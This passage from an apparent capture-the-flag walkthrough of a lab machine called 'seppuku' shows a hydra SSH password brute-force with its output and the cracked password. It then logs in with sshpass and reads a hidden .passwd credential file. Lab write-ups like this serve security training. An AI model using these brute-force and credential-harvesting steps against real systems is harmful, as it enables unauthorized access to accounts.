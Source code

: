 # SSH connection as seppuku

## Brute force seppuku's SSH account

Let's try to brute force seppuku's account using the dictionary.

~~~
kali@kali:/data/seppuku/files$ hydra -l seppuku -P password.lst ssh://seppuku.box
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 09:30:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 93 login tries (l:1/p:93), ~6 tries per task
[DATA] attacking ssh://seppuku.box:22/
[22][ssh] host: seppuku.box   login: seppuku   password: eeyoree
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-04 09:30:53
~~~

Hydra successfully found seppuku's password: `eeyoree`.

## First connection as seppuku

We can now connect as `seppuku`.

~~~
kali@kali:/data/seppuku/files$ sshpass -p "eeyoree" ssh seppuku@seppuku.box
Linux seppuku 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 13 10:52:41 2020 from 192.168.1.48
~~~

The home directory contains a hidden `.passwd` file:

~~~
seppuku@seppuku:~$ ls -la
total 28
drwxr-xr-x 3 seppuku seppuku 4096 Oct  4 03:30 .
drwxr-xr-x 5 root    root    4096 May 13 04:50 ..
-rw-r--r-- 1 seppuku seppuku  220 May 13 00:28 .bash_logout
-rw-r--r-- 1 seppuku seppuku 3526 May 13 00:28 .bashrc
drwx------ 3 seppuku seppuku 4096 May 13 10:05 .gnupg
-rw-r--r-- 1 root    root      20 May 13 04:47 .passwd
-rw-r--r-- 1 seppuku seppuku  807 May 13 00:28 .profile
seppuku@seppuku:~$ cat .passwd 
12345685213456!@!@A
~~~
